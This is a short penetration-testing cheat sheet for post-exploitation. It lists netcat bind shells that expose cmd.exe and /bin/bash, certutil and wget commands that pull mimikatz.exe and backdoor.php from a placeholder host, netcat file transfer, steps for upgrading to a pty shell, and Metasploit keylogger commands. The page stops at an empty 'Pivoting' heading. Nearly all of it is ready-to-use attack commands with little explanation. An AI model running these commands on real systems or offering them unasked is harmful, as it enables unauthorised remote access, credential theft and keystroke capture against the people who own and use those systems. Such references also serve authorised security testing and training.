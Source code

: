# 3 - Post-Exploitation

## <mark style="color:green;">General</mark>

### Bind Shell

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

* Windows (target)
  * `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
* Linux (target)
  * `nc -nvlp <PORT> -e /bin/bash`
* Linux (attacker)
  * `nc -nv <IP> <PORT>`
* Windows (attacker
  * `nc.exe -nv <IP> <PORT>`

### Transfer files

* Windows
  * `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
* Linux
  * `wget http://<host>/backdoor.php`
* Netcat
  * `nc -nvlp 1234 > test.txt (recepient)`
  * `nc -nv <ip> <port> < test.txt (sender)`

### Interactive shell

* Linux
  * `/bin/bash -i`

### Fully interactive shell

* Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`

### Keylogger

* Metasploit
  * `keyscan_start` : start keylogger
  * `keyscan_dump` : print captured strokes

### Pivoting
